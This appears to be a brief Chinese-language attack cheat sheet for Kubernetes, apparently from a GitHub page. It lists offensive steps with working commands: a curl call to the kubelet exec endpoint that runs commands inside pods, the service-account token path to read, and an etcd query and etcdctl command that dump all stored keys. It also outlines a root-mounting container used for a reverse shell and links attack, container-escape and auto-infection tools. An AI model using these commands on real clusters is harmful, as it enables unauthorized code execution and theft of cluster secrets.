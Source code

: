 ## k8s攻击
0. 工具:https://github.com/inguardians/peirates
1. 直接访问端口，得到所有可用的API，如果配置了ui直接访问`/ui`
2. 创建容器挂在根目录，反弹shell
3. 通过kubelet API /pods路径获得容器运行信息。可以实现命令执行`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://kube-node-here:10250/exec/<namespace>/<podname>/<container-name>?command=touch&command=hello_world&input=1&output=1&tty=1"` 通过wscat进行连接。
4. 读取` /run/secrets/kubernetes.io/serviceaccount/token`获得token就可以和k8s通信，如果Kubernetes增加了RBAC授权，可能无法使用token进行通信。


## etcd
1. 访问master节点的`/v2/keys/?recursive=true` 可以得到所有密钥
2. 使用etcdctl`etcdctl --endpoint=http://[etcd_server_ip]:2379 ls`

## 容器
https://github.com/brompwnie/botb

## 自动感染
https://github.com/guardicore/monkey
